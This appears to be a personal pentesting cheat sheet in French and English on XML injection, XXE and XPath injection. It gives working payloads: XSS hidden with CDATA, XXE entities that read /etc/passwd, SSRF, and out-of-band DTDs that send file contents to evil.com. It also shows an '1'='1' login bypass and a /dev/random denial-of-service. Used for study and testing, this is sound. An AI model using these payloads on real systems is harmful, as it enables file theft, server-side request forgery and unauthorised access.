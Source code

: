 # XXE and other XML vulnerabilities

## XML injection

Si nos inputs sont directement ajouter en tant que noeud dans un doc xml :

* We can inject malformed string to break the parser
* On peut modifier les informations enregistrées. Par exemple si notre input consiste en notre nom et que l'app rajoute ensuite automatiquement un champ pour nos droits, on peut fabriquer notre input de force à commenter la partie générée par l'appli et à la place mettre la notre \(owasp testing guide 4 page 138 pour un exemple\).
* If the xml is converted to html, `<![CDATA[]]>` might just be stripped, making it possible to inject other script undectected

```text
<html>
 <![CDATA[<]]>script<![CDATA[>]]>alert(‘xss’)<![CDATA[<]]>/
script<![CDATA[>]]>
 </html>
<!-- to : -->
<script>alert(‘XSS’)</script>
```

## XXE - _XML External Entities_

### Inband

Si le site nous renvoit directement ce qui a été parsé, on peut envoyer ce genre de fichier :

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE inband [
    <!ELEMENT inband ANY>
    <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<inband>&xxe;</inband>
```

### SSRF - _Server Side Request Forgery_

On peut faire n'importe quelle requête _au nom du serveur_ en lui faisant suivre un lien pour load un DTD externe :

```markup
<?xml version="1.0"?>
<!DOCTYPE ssrf [
    <!ENTITY request SYSTEM "http://attacker.com">
]>
<ssrf>&request;</ssrf>
```

### Out-of-band \(blind\)

Pour "exfilter" les données au cas où elles ne nous sont pas montrées, on peut forcer le serveur à faire une requête vers notre serveur avec dans le lien les données.

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

Au cas où le contenu du fichier ferait bugger le parser, on peut abuser de _CDTATA_ :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % end "]]>">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%start;%file_content;%end;'>">
    %wrapper;
```

### DDOS

By doing this kind of request we can DDOS

```markup
<?xml version=”1.0” encoding=”ISO-8859-1”?>
 <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///dev/random” >
]>
<foo>&xxe;</foo>
```

See also "A Billion Laugh" attack

### Ressources supplémentaires

* [https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) 
* [https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

## XPath Injection

Elles suivent la même logique que les injections SQL.

```text
Cette requête récupère le compte correspondant à "gandalf" avec le mdp "!3c"

string(//user[username/text()=’gandalf’ and password/text()=’!c3’]/account/text())

En insérant ces valeurs :
Username: ‘ or ‘1’ = ‘1
Password: ‘ or ‘1’ = ‘1 

Elle deviendrait cela :
string(//user[username/text()=’’ or ‘1’ = ‘1’ and password/
text()=’’ or ‘1’ = ‘1’]/account/text())
```

Nous permettant de nous authentifier systématiquement.

J'imagine que le même genre de chose est possible avec XQuery.

